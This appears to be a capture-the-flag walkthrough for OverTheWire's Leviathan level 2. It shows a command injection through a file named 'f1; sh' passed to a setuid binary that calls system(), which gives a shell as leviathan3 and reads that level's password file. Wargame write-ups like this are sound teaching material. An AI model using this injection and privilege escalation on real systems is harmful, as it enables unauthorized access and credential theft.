 			leviathan2@leviathan:/tmp$ cat f1
			This is f1
			leviathan2@leviathan:/tmp$ cat f2
			This is f2
			leviathan2@leviathan:/tmp$ cat f1 f2
			This is f1
			This is f2
			leviathan2@leviathan:/tmp$ cat "f1 f2"
			This is f1 f2
			leviathan2@leviathan:/tmp$ cat f1\ f2
			This is f1 f2
			leviathan2@leviathan:/tmp$ 

* Coming back the question:
	* **access()** checks permissions for **f1\ f2**, but **/bin/cat** is opening 2 entirely different files. 
	* Ideally, the **one file** whose permissions are checked should be opened by /bin/cat. But here, 2 different files are getting opened. 
	* This opening of 2 files is something that was **not intended** of the program. So, This is definitely a **bug**. Let us see if this is a **vulnerability** . 

* Let us see how it can be exploited to get the password.

* Observe this carefully:

		$ cat f1; echo "This is the trick"

	* The above is a very common trick, if you want 2 commands to be executed one after the other, use a **;** . First **cat f1** is executed, and then **echo** is executed. 

* system(str) : 
	
	* str = "/bin/cat %s"
	
	* Suppose I give %s = **f1; echo "This is the trick"** , then str = **"/bin/cat f1; echo "This is the trick"**. So, as we saw above, first **/bin/cat f1** gets executed, and then **echo** . 
	
	* Here, the **echo** command represents **any** arbitrary command right? We can give any command instead of echo and it peacefully gets executed. 
	
	* Now, I will be able to execute any command, with higher privileges(here, privileges of **leviathan3**).  
	
* Obviously, if we are able to execute any command, then I would execute **/bin/sh** first and get a shell. Then, I can do whatever I want with that.

* Look at the exploit: 

		leviathan2@leviathan:/tmp$ id
		uid=12002(leviathan2) gid=12002(leviathan2) groups=12002(leviathan2)
		leviathan2@leviathan:/tmp$ 
		leviathan2@leviathan:/tmp$ touch f1
		leviathan2@leviathan:/tmp$ echo "This is f1" > f1
		leviathan2@leviathan:/tmp$ 
		leviathan2@leviathan:/tmp$ touch "f1; sh"
		leviathan2@leviathan:/tmp$   
		leviathan2@leviathan:/tmp$ ~/printfile "f1; sh"
		This is f1
		$ 
		$ 
		$ id
		uid=12003(leviathan3) gid=12002(leviathan2) groups=12002(leviathan2)
		$ 
		$ whoami
		leviathan3
		$ 
		$ cat /etc/leviathan_pass/leviathan3
		Ahdiemoo1j
		$ 
		